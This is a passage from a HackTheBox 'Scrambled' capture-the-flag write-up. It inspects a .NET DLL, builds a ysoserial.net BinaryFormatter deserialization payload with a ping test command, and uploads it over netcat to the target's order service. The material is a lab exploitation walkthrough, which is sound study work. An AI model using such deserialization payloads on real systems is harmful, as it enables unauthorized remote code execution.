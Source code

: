 We can use strings to look at the readable contents of the file:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# strings -el -n8 ScrambleLib.dll 
```

Even filtering for 8 characters or longer the output is quite long. These bits are interesting:

```text
LIST_ORDERS
UPLOAD_ORDER

Getting orders from server
Splitting and parsing sales orders
sales orders in server response
Deserializing single sales order from base64: 
Deserialization successful
Finished deserializing all sales orders
Uploading new order with reference 
Order serialized to base64: 
Upload successful
```

We see what looks like two commands **LIST_ORDERS** and **UPLOAD_ORDER** and then there's lots of messages about serializing and deserializing orders.

## YSoSerial

I did a HackTheBox machine a while back called [LogForge](https://pencer.io/ctf/ctf-htb-logforge/#java-de-serialization-attacks) that focused on Log4J attacks. In that we covered object serialization using [YSoSerial](https://github.com/frohoff/ysoserial). HackTricks has some good info [here](https://book.hacktricks.xyz/pentesting-web/deserialization) for the deserialization attack we want to perform. Also [this](https://speakerdeck.com/pwntester/attacking-net-serialization) is a presentation by the creator of this Windows version which is an interesting read. Finally [this](https://security.stackexchange.com/questions/256086/how-to-decode-ysoserial-net-payload) was what gave me the idea on what parameters we need to use for Windows.

Grab the Windows version of YSoSerial from [here](https://github.com/pwntester/ysoserial.net/releases/download/v1.34/ysoserial-1.34.zip). Unzip and then let's test a payload by doing a simple ping just like we did on [LogForge](https://pencer.io/ctf/ctf-htb-logforge/#java-de-serialization-attacks):

```powershell
PS C:\Users\Downloads\ysoserial-1.34\Release> ./ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "ping -n 2 10.10.14.198"
AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2Vj <SNIP> 05MmFXUmxjajRMCw==
```

Take the long serialized object that's been base64 encoded and switch to Kali where we can connect to port 4411 again and upload it:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# nc -v scrm.local 4411
scrm.local [10.10.11.168] 4411 (?) open
SCRAMBLECORP_ORDERS_V1.0.3;
UPLOAD_ORDER;AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2Vj <SNIP> 05MmFXUmxjajRMCw==
ERROR_GENERAL;Error deserializing sales order: Exception has been thrown by the target of an invocation.
```
